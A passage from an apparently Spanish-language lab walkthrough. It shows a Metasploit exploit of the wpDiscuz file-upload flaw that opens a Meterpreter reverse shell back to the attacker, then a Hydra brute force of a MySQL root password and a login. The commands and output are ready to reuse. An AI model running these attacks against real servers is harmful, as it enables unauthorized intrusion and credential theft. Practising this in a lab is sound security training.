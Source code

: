 Y lo ejecutamos:
```bash
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > exploit
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Payload uploaded as zAVVNkzASqw.php
[*] Calling payload...
[*] Sending stage (40004 bytes) to 192.168.1.60
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 192.168.1.60:57386) at 2025-01-30 15:30:16 -0600
[!] This exploit may require manual cleanup of 'zAVVNkzASqw.php' on the target
.
meterpreter > getuid
Server username: www-data
```
Muy bien, obtuvimos una sesión de **Meterpreter**.

<br>

<h2 id="MySQL">Aplicando Fuerza Bruta y Enumeración al Servicio MySQL</h2>

Si recordamos, habíamos visto que está activo el **servicio MySQL** y se encuentra expuesto.

De igual forma, ya tenemos un usuario llamado **mortadela**, pero no va a funcionar este usuario para aplicarle fuerza bruta.

Entonces, vamos a tratar de encontrar la contraseña del **usuario root**, que es el usuario común dentro del **servicio MySQL**:
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.60 mysql
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-30 13:55:54
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.1.60:3306/
[3306][mysql] host: 192.168.1.60   login: root   password: cassandra
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-30 13:56:18
```
Excelente, encontramos la contraseña.

Al intentar loguearnos, debemos indicar que se salte el uso de **certificado SSL**:
```bash
mysql -uroot -p -h 192.168.1.60 --skip-ssl
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2070
Server version: 10.11.6-MariaDB-0+deb12u1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```
Estamos dentro.
